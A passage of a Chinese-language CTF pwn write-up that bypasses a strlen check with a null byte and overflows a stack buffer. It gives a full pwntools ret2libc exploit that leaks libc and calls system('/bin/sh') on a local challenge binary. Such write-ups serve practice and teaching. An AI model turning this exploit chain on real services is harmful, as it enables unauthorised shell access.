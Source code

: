 该函数会将随机数作为字符串输出到s，之后读取最大0x20个字节的输入到v6，用`strlen()`计算v6长度存到v1并与s比对v1个字节，若不相同则直接退出程序

考虑到`strlen()`函数以`'\x00'`字符作为结束标识符，故我们只需要在输入前放上一个`'\x00'`即可避开这个检测

之后会将v5的数值返回到主函数并作为参数又给到`sub_80487D0()`函数，简单看一下我们便可以发现该函数读取最大v5个字节的输入到`buf`中，而`buf`距离`ebp`只有0xe7个字节

![image.png](img/fe15b26dd2e7053c5a1b65760e778fa5.png)

由于没有可以直接getshell的函数，故考虑在第一次输入时将v5覆写为`0xff`以保证能够读取的输入长度最大，在第二次输入时构造rop链使用write函数泄露write的地址，再使用libcsearcher得到libc基址与`system()`和`"/bin/sh"`字符串的地址，最后构造rop链调用`system("/bin/sh")`即可getshell

构造exp如下：

```
from pwn import *
from LibcSearcher import *
e = ELF('./pwn')
write_plt = e.plt['write']
write_got = e.got['write']
payload1 = b'\x00' + 7* b'\xff'
payload2 = b'A' * 0xe7 + p32(0xdeadbeef) + p32(write_plt) + p32(0x80487d0) + p32(0x1) + p32(write_got) + p32(0x8)

p = process('./pwn')
p.sendline(payload1)
p.recvuntil(b'Correct\n')
p.sendline(payload2)
write_addr = u32(p.recv(4))
libc = LibcSearcher('write',write_addr)
libc_base = write_addr - libc.dump('write')
sys_addr = libc_base + libc.dump('system')
sh_addr = libc_base + libc.dump('str_bin_sh')

payload3 = b'A'*0xe7 + p32(0xdeadbeef) + p32(sys_addr) + p32(0xdeadbeef) + p32(sh_addr)
p.sendline(payload3)
p.interactive() 
```
